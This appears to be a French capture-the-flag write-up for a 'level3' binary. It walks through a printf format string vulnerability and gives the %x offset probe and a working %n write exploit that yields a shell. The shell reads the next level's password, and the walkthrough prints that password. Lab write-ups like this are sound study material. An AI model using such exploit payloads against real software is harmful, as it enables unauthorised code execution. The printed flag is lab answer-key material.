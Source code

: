 ```
▄▄▄     ▄▄▄▄▄▄▄ ▄▄   ▄▄ ▄▄▄▄▄▄▄ ▄▄▄        ▄▄▄▄▄▄▄ 
█   █   █       █  █ █  █       █   █      █       █
█   █   █    ▄▄▄█  █▄█  █    ▄▄▄█   █      █▄▄▄    █
█   █   █   █▄▄▄█       █   █▄▄▄█   █       ▄▄▄█   █
█   █▄▄▄█    ▄▄▄█       █    ▄▄▄█   █▄▄▄   █▄▄▄    █
█       █   █▄▄▄ █     ██   █▄▄▄█       █   ▄▄▄█   █
█▄▄▄▄▄▄▄█▄▄▄▄▄▄▄█ █▄▄▄█ █▄▄▄▄▄▄▄█▄▄▄▄▄▄▄█  █▄▄▄▄▄▄▄█
```

- [Tuto](https://nikhilh20.medium.com/format-string-exploit-ccefad8fd66b)
- Ici la vulnerabilité est que le format de printf peut etre modifier avec gets
```
$> ./level3
%d
512
```
- On regarde ensuite qu'elle est l'addresse de la fonction contenant 
<pre>
$> nm level3
<strong>0804988c</strong> B m
</pre>
- On regarde a combien de %x il faut pour trouver l'adresse print
<pre>
$> (python -c "print ('AAAA' + '\x8c\x98\x04\x08' + '%x '*5)") | ./level3
AAAA200 b7fd1ac0 b7ff37d0 <strong>41414141 804988c</strong>
</pre>
- Il suffit d'utiliser `%n` qui permet d'ecrire le nombre de caractere d'avant dans la variable (ici 0x0804988c) 
```
(python -c "print ('AAAA' + '\x8c\x98\x04\x08' + '%x '*4 + 'A'*25 + '%n')"; cat) | ./level3
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
